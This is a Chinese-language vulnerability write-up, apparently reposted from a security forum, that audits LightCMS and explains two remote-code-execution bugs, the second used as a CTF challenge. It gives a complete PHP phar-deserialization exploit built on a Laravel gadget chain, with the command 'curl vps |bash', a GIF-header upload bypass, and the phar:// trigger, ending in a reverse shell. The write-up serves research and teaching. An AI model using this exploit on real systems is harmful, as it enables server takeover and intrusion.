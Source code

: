 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9555)

> 先知社区，先知安全技术社区

前言
--

之前为了熟悉下 laravel，找了个基于 laravel 开发的 cms 审计练练手，瞄准了 lightcms。

先是挖到了一个比较简单的任意文件读取 & RCE 漏洞，提了 issue 被修复后又简单审计了一波，挖掘到了一个有意思的 RCE，感觉很适合 CTF，就拿来出题了，被用在了今年红帽杯的初赛。很遗憾由于放出题目时间较晚 + 很多 dalao 去打津门杯了，这道题只有两个队伍解出。

关于 lightcms 的简单介绍：

> `lightCMS`是一个轻量级的`CMS`系统，也可以作为一个通用的后台管理框架使用。`lightCMS`集成了用户管理、权限管理、日志管理、菜单管理等后台管理框架的通用功能，同时也提供模型管理、分类管理等`CMS`系统中常用的功能。

github 地址：[https://github.com/eddy8/LightCMS](https://github.com/eddy8/LightCMS)

v1.3.5 任意文件读取 & RCE 漏洞
----------------------

这个漏洞出在 `app/Http/Controllers/Admin/NEditorController.php`中的远程下载图片的功能：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011337-e4caeb28-b0e9-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011337-e4caeb28-b0e9-1.png)  
这里简单使用了 `file_get_contents`来获取文件内容，并保存，所以我们可以使用 file 协议实现任意文件读取等 ssrf 操作。更危险的是这里的逻辑是取到的文件名后缀是什么，保存的就是什么后缀，所以我们可以放一个 php 一句话在服务器上，然后来请求，那么我们就可以 getshell。

具体可见 [https://github.com/eddy8/LightCMS/issues/19](https://github.com/eddy8/LightCMS/issues/19)

v1.3.7 RCE 漏洞
-------------

提了个 issue 后，作者也是及时进行了修复，分析下 patch 的操作，增加了一个 fetchImageFile 函数处理：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011448-0ed118f2-b0ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011448-0ed118f2-b0ea-1.png)  
跟进分析 fetchImageFile：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011501-16b3ec20-b0ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011501-16b3ec20-b0ea-1.png)  
可以看到使用了 curl 来获取远程资源的内容，然后使用 Image:make 模块进行解析。并且对后缀也进行了严格的过滤。同时这个 cms 大多都是数据库操作，涉及文件操作少之又少，看起来是无法直接 RCE 的。

laravel 框架开发我自然联想到了反序列化，并且这个 cms 后台还是有图片上传功能的，能不能利用 phar 反序列化实现 RCE 呢？

### POP 链

正式版本 Laravel 版本是 6.20.16，测试发现 5.8 版本利用 `dispatch`方法的 RCE 链在 6.20.16 版本可以使用。经过测试 7.x 版本也可以使用这条链。[这篇文章](https://www.anquanke.com/post/id/231079)分析到了 laravel 8 的链子，不过多赘述了。

### 文件上传

有了 RCE 链，我们需要将 phar 文件传上去。patch 过的远程下载图片功能，使用了`Intervention\Image\Facades\Image`库来进行图片解析，对文件内容检查较为严格，但是本地图片上传处较为松散，使用一般的添加 GIF 文件头的方法就可以成功上传。

### 触发点

最后一步也就是相对困难的一步，需要找到触发 phar 的点，即我们可控的一个文件处理函数。其实前面提到了这个 cms 并没有太多文件操作。  
注意到修复代码 `fetchImageFile`函数存在如下操作：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011635-4ed80a28-b0ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011635-4ed80a28-b0ea-1.png)  
在获取到远程 url 的内容后，会调用 `Intervention\Image\Facades\Image`的 `make`方法，对图片内容进行解析。

看到这里我隐约想起之前见过 `Image:make($url)`这种用法，那么这里的 url 能不能有类似 file_get_content 之类的文件操作呢？

跟进，会跳到 `vendor/intervention/image/src/Intervention/Image/AbstractDecoder.php`中 `AbstractDecoder`类的 `init`方法，判断数据类型：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011707-62188d92-b0ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011707-62188d92-b0ea-1.png)  
可以看到 data 不仅可以是图片的二进制数据 ，还可以是这些数据格式，跟进 `initFromUrl`方法：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011740-7532749c-b0ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011740-7532749c-b0ea-1.png)  
非常明显的 file_get_contents，那么最后触发点的问题也解决了，我们可以在 vps 上放置一个 txt 文件，内容为 `phar://./upload/xxx`，然后让服务器来取这个文件，即可触发反序列化。

### RCE 流程

首先生成 phar 文件:

```
<?php

namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;

        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }

    }

    class BroadcastEvent
    {
      protected $connection;

      public function __construct($connection)
      {
        $this->connection = $connection;
      }
    }

}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;

        public function __construct($queueResolver)
        {
          $this->queueResolver = $queueResolver;
        }

    }
}

namespace{
    $command = new Illuminate\Broadcasting\BroadcastEvent('curl vps |bash');

    $dispater = new Illuminate\Bus\Dispatcher("system");

    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispater,$command);
    $phar = new Phar('phar.phar');
    $phar -> stopBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($PendingBroadcast);
    $phar -> stopBuffering();
    rename('phar.phar','phar.jpg');

}
```

在后台添加文章处上传图片：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011843-9ae9bcc2-b0ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011843-9ae9bcc2-b0ea-1.png)  
得到文件路径 `upload/image/202102/AciwTtmKQ7IQN4gdeoiZ6ve4A0LSK48SGJGk38df.gif`。  
在 vps 上放置一个文件，内容为 `phar://./upload/image/202102/AciwTtmKQ7IQN4gdeoiZ6ve4A0LSK48SGJGk38df.gif`，让服务器来取这个文件：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011923-b325f648-b0ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011923-b325f648-b0ea-1.png)  
可以反弹 shell：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210510011939-bc74c4b8-b0ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210510011939-bc74c4b8-b0ea-1.png)

总结
--

这个漏洞虽然利用起来并不算复杂，但是 phar 触发点相对隐秘一些，不容易被发现，这个操作也是之前没有见过的（感觉很适合 CTF 2333），还是挺有趣的，只可惜感觉打的人不太多。